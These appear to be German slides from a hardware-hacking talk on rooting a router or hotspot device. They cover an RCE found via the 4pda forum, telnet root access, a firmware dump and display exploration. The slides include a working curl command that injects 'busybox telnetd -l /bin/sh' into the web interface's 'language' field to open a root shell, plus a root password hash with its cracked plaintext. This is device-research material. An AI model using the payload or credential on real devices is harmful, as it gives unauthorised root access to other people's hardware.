
 \

# Wir legen los

- wir finden 4pda
- russisches Forum, das u.a. eine RCE im Webinterface gefunden hat
- die dort hochgeladenen Scripte sind nicht mehr verfügbar
- wir haben den dokumentierten Payload in Rust und später bash implementiert und telnet Zugang auf das Gerät erhalten
- wir haben root per telnet

`curl -s 'http://192.168.0.1/cgi-bin/qcmap_web_cgi' -b "tpweb_token=$token" -d '{"token":"'"$token"'","module":"webServer","action":1,"language":"$(busybox telnetd -l /bin/sh)"}' > /dev/null`


# Erste Findings

- komfortable shell per adb possible
- wir dokumentieren random findings im Filesystem und dumpen die Firmware
 - `root:C98ULvDZe7zQ2:0:0:root:/home/root:/bin/sh` -> `oelinux123`
- aus der Firmware extrahieren wir ein Device Tree Binary

# Was können wir eigentlich mit dem Display machen?

- Wir finden die Display Version per dtvis

![](img/dtvis.png){ height=80% }

